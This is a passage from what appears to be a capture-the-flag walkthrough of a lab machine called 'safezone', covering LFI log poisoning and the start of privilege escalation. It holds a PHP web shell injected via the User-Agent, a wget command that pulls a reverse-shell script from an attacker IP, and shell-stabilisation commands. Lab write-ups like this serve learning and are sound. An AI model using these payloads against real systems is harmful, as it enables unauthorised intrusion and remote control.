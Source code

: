 ```
?page=/var/log/apache2/access.log&cmd=wget 10.14.21.28:8000/rev.php -O /home/files/rev.php
```

Before this, let's test the `rce`, we need to use this:

```php
<?php system($_GET['cmd']); ?>
```

On the `User-Agent`, then, send the request twice so we can see the `rce`:

![](cybersecurity/images/Pasted%2520image%252020250519203456.png)

As seen, we got `rce`, let's do the command from before then:

![](cybersecurity/images/Pasted%2520image%252020250519203554.png)

![](cybersecurity/images/Pasted%2520image%252020250519203603.png)

We got the request on our server, we only need to access the file through the `lfi` again and have our listener ready:

![](cybersecurity/images/Pasted%2520image%252020250519203655.png)

![](cybersecurity/images/Pasted%2520image%252020250519203704.png)

We got our shell, let's begin privilege escalation.




# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](cybersecurity/images/Pasted%2520image%252020250519203804.png)

With our stable shell, we can now look around the box, for example, if we use `sudo -l`, we get this:

```
www-data@safezone:/$ sudo -l
Matching Defaults entries for www-data on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User www-data may run the following commands on safezone:
    (files) NOPASSWD: /usr/bin/find
```
